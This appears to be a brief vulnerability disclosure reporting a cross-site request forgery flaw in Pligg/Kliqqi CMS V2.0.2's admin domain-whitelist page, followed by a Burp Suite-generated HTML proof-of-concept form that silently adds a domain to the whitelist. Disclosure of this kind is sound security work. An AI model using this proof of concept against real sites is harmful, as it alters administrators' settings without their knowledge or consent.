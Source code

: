 
target:https://github.com/Kliqqi-CMS/Kliqqi-CMS
version: V2.0.2

Pligg CMS V2.0.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/domain_management.php?whitelist_add=www.baidu.com

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/domain_management.php?whitelist_add=www.baidu.com" method="POST">
      <input type="hidden" name="whitelist_add" value="www.baidu.com" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

